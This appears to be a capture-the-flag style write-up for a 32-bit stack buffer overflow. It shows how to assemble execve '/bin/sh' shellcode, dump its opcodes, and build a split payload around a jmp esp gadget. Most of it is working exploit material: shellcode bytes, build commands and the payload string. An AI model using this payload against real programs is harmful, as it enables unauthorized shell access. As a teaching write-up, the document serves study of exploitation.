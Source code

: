 The shellcode must be compiled without the `sub esp,0x15` and `jmp esp` because it will result in Segmentation fault. They are given for the easy creation of the shellcode </br>
Compile the shellcode as follows : </br>

```
nasm -f elf shell.asm

ld -m elf_i386 -s -o shell shell.o
```

This will give an executable called `shell` which when run, can spawn a shell.</br>


### Getting the opcodes from the shellcode 

Use objdump to get the opcodes from the shellcode : 

```
objdump -D -Mintel shell | less

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <.text>:
 8049000:       31 d2                   xor    edx,edx
 8049002:       31 c0                   xor    eax,eax
 8049004:       83 ec 16                sub    esp,0x16
 8049007:       ff e4                   jmp    esp
 8049009:       50                      push   eax
 804900a:       68 2f 2f 73 68          push   0x68732f2f
 804900f:       68 2f 62 69 6e          push   0x6e69622f
 8049014:       89 e3                   mov    ebx,esp
 8049016:       b0 0b                   mov    al,0xb
 8049018:       cd 80                   int    0x80
```



## Crafting your own payload

I will craft the payload as stated earlier </br>

```
payload = b'a' + b'\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + jmp_esp + b'\x31\xd2\x31\xc0\x83\xec\x15\xff\xe4'
```

The first half contains the part of the shellcode from `push eax` till the end</br>
After that it has a jmp_esp instruction taken from the binary which points the IP to the stack and starts executing oru shellcode.</br>
Then we have the first part of the shellcode consisting of the parts from `xor edx,edx` to `jmp esp`. The extra padding was given at the beginning of the payload, because the length of the first part of the payload was coming out to be 17 bytes, which is not enough to overflow the buffer.</br>
Towards the end the shellcode points toward 0x15 bytes back of the current esp value and jumps to that, which causes the rest of the shellcode to execute.</br>
